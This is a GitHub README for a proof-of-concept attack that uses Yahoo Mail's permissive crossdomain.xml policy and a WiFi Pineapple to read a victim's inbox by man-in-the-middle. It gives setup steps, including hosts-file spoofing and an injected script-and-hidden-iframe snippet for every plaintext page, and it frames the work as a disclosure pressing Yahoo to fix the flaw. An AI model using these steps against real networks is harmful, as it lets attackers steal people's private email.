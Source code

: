 ## YMail-Pineapple

A couple years back [I mentioned](http://blog.saynotolinux.com/blog/2014/03/01/yahoos-pet-show-of-horrors-abusing-a-crossdomain-proxy-to-leak-a-users-email/) that Yahoo! Mail is vulnerable to active MITM attacks due to problems with its `crossdomain.xml` policy. Specifically, Yahoo Mail policy is

```xml
<cross-domain-policy>
    <allow-access-from domain="*.yahoo.com" secure="false"/>
</cross-domain-policy>
```

[Per Adobe](https://www.adobe.com/devnet/adobe-media-server/articles/cross-domain-xml-for-streaming.html#articlecontentAdobe_numberedheader_0) "using \[secure=\]false in an HTTPS policy file is not recommended because this compromises the security offered by HTTPS."

Note that the ability to give insecure documents privileged access to secure resources isn't unique to Flash's crossdomain policies. [You can make the same mistake with CORS headers (see "Breaking HTTPS".)](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)

Anywho, since Yahoo still hasn't fixed this I figured I'd demonstrate that this isn't just a handwavey warning, and that this makes Yahoo Mail trivially MITMable.

Putting aside aside my concerns about the security of its code, I own a Wifi Pineapple Mark V so the instructions assume you're using one as well. All of this could be reasonably adapted to any other router that can run vanilla OpenWRT.

## How does it work?

First, we intercept every plaintext HTTP response and inject an `<iframe>` pointing to `http://spoof.yahoo.com/grabberFrame.html` onto every page. Our device intercepts that request responds with [our own document](grabberFrame.html) that embeds `http://spoof.yahoo.com/MailGrabber.swf`. The request for that `swf` is similarly intercepted and replaced with [our own SWF](MailGrabber.as).

We should now have a document on `spoof.yahoo.com` embedding our own `swf` loaded in the user's browser. The document [asks the `swf` to request the user's YMail page](grabberFrame.html#L7-L14) via Flash's JS<->SWF bridge and the SWF [sends the page's content back to our JS](MailGrabber.as#L26-L48). At this point the content can be leaked to a remote server or something similar, but out demo dumps it onto the page.

This is possible because even though `*.mail.yahoo.com` has an HSTS policy, uses the `Secure` flag on the relevant cookies, and always redirects to `https`, the `crossdomain.xml` policy gives our SWF served over HTTP privileged access to YMail pages served over HTTPS.

## Configuring

* Make sure your Pineapple is connected to the internet via ethernet or a second wifi radio
* Install the [strip-n-inject infusion](https://forums.hak5.org/index.php?/topic/30673-support-strip-n-inject/)
** I needed to run `mkdir -p /sd/tmp/` to get `strip-n-inject` to start but YMMV
* SSH into your Pineapple and add `127.0.0.1 spoof.yahoo.com` to `/etc/hosts` so it will read from our internal webserver
* `rsync` the contents of this repo to `/www/` on your Pineapple
* Configure `strip-n-inject` to inject the following onto each page:

```html
<script src="http://spoof.yahoo.com/receiver.js"></script>
<iframe width="1" height="1" src="http://spoof.yahoo.com/grabberFrame.html"></iframe>
```

* If you don't want to dump the inbox contents to the current page, edit `grabber.js` to do something other than `postMessage()` and remove the `receiver.js` line from `strip-n-inject`'s config


## Running

At this point you should be ready to test. Make sure you're logged in on YMail and navigate to http://www.cnn.com/ while connected to the Pineapple's public interface. You should see a box like

![Emails dumped into www.cnn.com](/screenshot.png)

If you don't, make sure `strip-n-inject` is configured correctly and check your browser console.

## Fixing

This will no longer work once Yahoo removes `secure="false"` from their `crossdomain.xml`s.
